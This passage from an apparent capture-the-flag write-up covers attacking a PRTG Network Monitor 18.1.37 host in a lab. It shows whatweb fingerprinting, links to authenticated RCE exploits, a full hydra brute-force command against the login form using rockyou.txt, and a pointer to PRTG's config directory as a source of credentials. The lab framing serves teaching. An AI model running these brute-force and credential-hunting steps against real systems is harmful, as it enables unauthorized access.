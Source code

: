 The footer shows that the server is running Paessler PRTG Network Monitor version 18.1.37.13946. 

### **Wappalyer and whatweb**
Wappalyzer fails to identify anything, while whatweb only identifies the PRTG Network Monitor version.

```
$ whatweb http://10.10.10.152/
http://10.10.10.152/ [302 Found] Country[RESERVED][ZZ], HTTPServer[PRTG/18.1.37.13946], IP[10.10.10.152], PRTG-Network-Monitor[18.1.37.13946,PRTG], RedirectLocation[/index.htm], UncommonHeaders[x-content-type-options], X-XSS-Protection[1; mode=block]
```
At this point, with the amount of information available I started searching for possible vulnerabilities to exploit. 

# Vulnerability
Searching for PRTG Network Monitor related vulnerabilities identifies a metasploit [module](https://www.rapid7.com/db/modules/exploit/windows/http/prtg_authenticated_rce/) and an exploitDB [script](https://www.exploit-db.com/exploits/46527). However, both of these exploits require us to authenticate against the server and until we have the correct credentials the exploits will not work. So, we again go back to enumerating the FTP share and try to brute force the login page.

# Passive Enumeration II
### **Bruteforce Password I**
When we enter a set of credentials, a request is sent to http://10.10.10.152/public/checklogin.htm with POST parameters of username, password and loginurl. I started a hydra scan against these values using rockyou.txt and username as 'prtgadmin'.

```
$ hydra -T4 -l prtgadmin -P /usr/share/wordlists/rockyou.txt 10.10.10.152 http-post-form "/public/checklogin.htm:username=prtgadmin&password=^PASS^&loginurl=:Your login has failed. Please try again\!"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-11 19:38:48
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking http-post-form://10.10.10.152:80/public/checklogin.htm:username=prtgadmin&password=^PASS^&loginurl=:Your login has failed. Please try again!
```
As the brute-force was in progress, I searched for default credentials for the PRTG Network Monitor in the meanwhile. A reddit [post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) identified the following directory, C:\ProgramData\Paessler\PRTG Network Monitor\, as storing configuration details for the application. So, we go back to the FTP share to check if the contents are available to us.
